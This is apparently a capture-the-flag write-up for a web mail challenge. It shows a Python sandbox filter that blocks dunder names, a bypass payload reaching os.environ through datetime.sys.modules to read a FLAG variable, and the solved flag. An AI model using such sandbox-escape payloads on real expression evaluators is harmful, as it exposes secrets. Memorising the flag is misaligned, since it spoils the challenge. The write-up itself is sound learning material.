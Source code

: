 ```python
def assert_no_dunder_name(code_obj, expr):
    for name in code_obj.co_names:
        if "__" in name or name in _UNSAFE_ATTRIBUTES:
            raise NameError('Access to forbidden name %r (%r)' % (name, expr))
```

I tried doing some simple math in the content:

```
Content: 1 + 1

Receive content: 2
```

We can see that it is possible to do math. I tried other commands and come to:

```python
datetime.sys.modules["os"].environ["FLAG"]
```

You can use `bob`/`alice` account and send this to your registered account **in the content** of the mail. You will receive the flag

![Guide image](./screenshots/vibe-web-mail-1.png)

The flag is: `ASIS{PH1ND_50m3_V183_1n_3NV_de1d8572fde00fb04f06d1ce}`

